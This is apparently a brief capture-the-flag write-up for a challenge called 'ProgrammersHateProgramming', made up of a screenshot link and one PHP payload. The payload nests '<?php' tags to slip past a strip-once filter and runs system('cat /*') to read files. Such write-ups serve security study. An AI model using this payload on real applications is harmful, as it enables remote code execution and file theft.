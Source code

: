 # ProgrammersHateProgramming



​

![](https://gblobscdn.gitbook.com/assets%2F-Mk1WHsnXjF46GNvdH3s%2F-Mk1XQBMmvIc-iKYQhV0%2F-Mk1XXFQ7fgzMsnuSsza%2Fimage.png?alt=media&token=9cde0199-94dd-4b5d-a83f-2c78c5fb8900)

```text
payload= <?php<?php system("cat /*"); ?>?>
```

